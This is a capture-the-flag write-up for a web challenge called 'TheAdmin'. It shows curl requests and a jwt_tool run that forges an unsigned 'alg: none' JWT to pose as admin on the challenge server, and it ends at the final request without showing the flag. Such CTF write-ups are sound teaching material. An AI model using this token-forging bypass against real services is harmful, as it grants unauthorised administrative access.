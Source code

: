 ## TheAdmin [100pt]

**Category:** Web
**Solves:** 120

## Description
The Professor has left a vulnerable authentication system. Can you exploit it and gain admin not just using admin? Sometimes the simplest loopholes can lead to the biggest breakthroughs. Its simple but none of you could figure out. Author: TheProfessor https://questcon-theadmin.chals.io

## Solution
We are provided with a API Documentation like this:

```

API Documentation

Welcome to the Challenge API documentation. Below are the details of the endpoints and how to use them.
Endpoints
1. Authenticate - POST /auth

Use this endpoint to authenticate with the username provided in the request body.
Request

POST /auth
Content-Type: application/json

{
  "username": "your_username"
}

Response

{
  "token": "your_token"
}

2. Access User Page - GET /access

Use this endpoint to access a user-authenticated page. You must provide a valid token in the Authorization header.
Request

GET /access
Authorization: Bearer your_token

Response

  Hello, {your special username}

```

Let's get a token for admin:
```bash
$ curl -X POST "https://questcon-theadmin.chals.io/auth" --data '{"username": "admin"}' -H "Content-Type: application/json"
{'token': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzI5NTk4MTczfQ.jyefZoIr3DCOeNaDynIKst8_7mdakp_KWXGJfd0-104'}
```

After fuzzing a little bit, tried none alg attack on jwt and seem to be working:
```bash
$ python ../../../../Tools/jwt_tool/jwt_tool.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzI5NTk4MTczfQ.jyefZoIr3DCOeNaDynIKst8_7mdakp_KWXGJfd0-104" -X a

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi      

Original JWT: 

jwttool_aebd6337718e3ec753036a734bc94865 - EXPLOIT: "alg":"none" - this is an exploit targeting the debug feature ......(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJuT25FIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzI5NTk4MTczfQ.
```

And send to get the flag:
```bash
$ curl "https://questcon-theadmin.chals.io/access" -H "Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzI5NTk4MTczfQ." -v
```